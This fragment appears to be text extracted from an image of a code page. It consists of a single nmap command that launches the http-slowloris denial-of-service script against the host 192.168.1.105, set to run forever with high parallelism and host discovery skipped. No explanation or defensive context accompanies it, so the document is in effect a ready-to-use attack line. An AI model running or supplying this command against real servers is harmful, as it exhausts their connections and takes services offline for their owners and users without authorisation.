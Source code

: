 nmap 192.168.1.105 -max-parallelism 800 -Pn --script http-slowloris --script-args http-slowloris.runforever=true